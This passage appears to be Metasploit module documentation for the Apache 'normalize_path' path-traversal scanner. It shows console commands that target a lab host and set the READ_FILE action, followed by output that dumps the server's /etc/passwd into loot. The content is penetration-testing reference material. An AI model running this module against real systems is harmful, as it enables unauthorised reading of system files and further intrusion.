 ```
msf auxiliary(scanner/http/apache_normalize_path) > 
```

### Read file

```
msf auxiliary(scanner/http/apache_normalize_path) > use auxiliary/scanner/http/apache_normalize_path
msf auxiliary(scanner/http/apache_normalize_path) > setg rhosts 172.20.4.11
rhosts => 172.20.4.11
msf auxiliary(scanner/http/apache_normalize_path) > setg rport 8080
rport => 8080
msf auxiliary(scanner/http/apache_normalize_path) > setg ssl false
ssl => false
msf auxiliary(scanner/http/apache_normalize_path) > setg verbose true
verbose => true
msf auxiliary(scanner/http/apache_normalize_path) > setg action READ_FILE
action => READ_FILE
msf auxiliary(scanner/http/apache_normalize_path) > run

[*] Obtained HTTP response code 200.
[+] 172.20.4.11:8080 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

[+] File saved in: /home/mekhalleh/.msf4/loot/20211010161150_default_172.20.4.11_apache.traversal_540877.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/apache_normalize_path) > 
```
## References
